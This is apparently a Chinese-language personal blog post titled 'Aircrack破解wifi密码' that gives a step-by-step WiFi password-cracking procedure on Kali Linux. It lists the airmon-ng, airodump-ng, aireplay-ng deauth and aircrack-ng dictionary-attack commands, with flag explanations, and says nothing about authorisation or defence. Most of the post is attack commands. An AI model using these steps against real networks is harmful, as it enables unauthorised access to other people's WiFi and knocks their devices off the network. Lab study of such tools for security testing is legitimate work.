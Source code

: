 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/fulls/03.jpg" class="fit image"> 
  
## 实验过程

### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包

### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作，如果没有开启  输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启。
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/fulls/0.9.jpg" class="fit image">
### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```

 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6 
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
 *-w是指定我的密码本

